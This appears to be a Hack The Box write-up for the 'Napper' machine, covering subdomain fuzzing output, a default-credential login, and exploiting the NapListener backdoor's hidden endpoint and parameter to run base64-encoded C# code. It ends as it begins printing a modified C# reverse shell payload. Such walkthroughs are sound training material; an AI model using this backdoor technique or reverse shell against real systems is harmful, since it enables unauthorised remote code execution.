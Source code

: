 ```markdown
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 5602
________________________________________________

internal                [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 102ms]
:: Progress: [4989/4989] :: Job [1/1] :: 734 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```
We have found another subdomain called `internal.napper.htb`. If we browse it with firefox, a login web page appears.

![napper1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/0e09e565-efa8-45dd-8895-ffe846f21a2f)

Browsing the login site with burpsuite, we see it uses basic authorization. In this type of authorization the credentials are sent in base64. The next step would be to find valid credentials for this site. In the blog `app.napper.htb` there are information about how the basic authorization works.
### PHASE 2: User
Browsing the site we find the procedure they followed to configure the server, including the default password used.

![napper2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8081003f-c577-4f92-aca7-8f8a9166966e)

Trying these credentials (example:ExamplePassword) in the login page, we are given access to the internal area. Inside the restricted area we find out there is an investigation ongoing on a malware called naplistener. Doing a search in Internet, we find out 2 good resources to have an undertanding of this malware.<br>
https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph<br>
https://thehackernews.com/2023/03/new-naplistener-malware-used-by-ref2924.html<br>
In summary, it is a malware written in c# which starts an http listener in the infected machines. Once the listener is running, if you send base64 encoded c# payloads to certain endpoint, it will be executed in memory. It is designed to masquerade and evade network-based detection methods, for this same reason, it will only process requests sent to `/ews/MsExgHealthCheckd/`, in the `sdafwe3rwe23` parameter. Any other tries to interact with naplistener will be responded with a 404 code.<br>
To verify if naplistener is running in the host, we send a base64 "aaa" payload to the endpoint and it is respondeded with OK 200. Therefore, naplistener is running in the system.

![napper3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/1140e4eb-37fb-4e53-a586-589b630da358)

We conclude if we send a base64-encoded c# reverse shell it will be decoded by naplistener and executed.
Next step is to download a c# tcp shell from http://www.revshells.com. Bear in mind it cannot be used off-the-self, it needs some modifications.
1. Namespace must match filename
2. It must contain a `Run` class
3. Create a constructor and place the shell code inside, so it is automatically invoked whenever an instance of the class is created. 
4. The `main()` point of entry will just call the constructor

An example payload could be the following:
```c#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace Present
{
	public class Run
	{
		static StreamWriter streamWriter;
```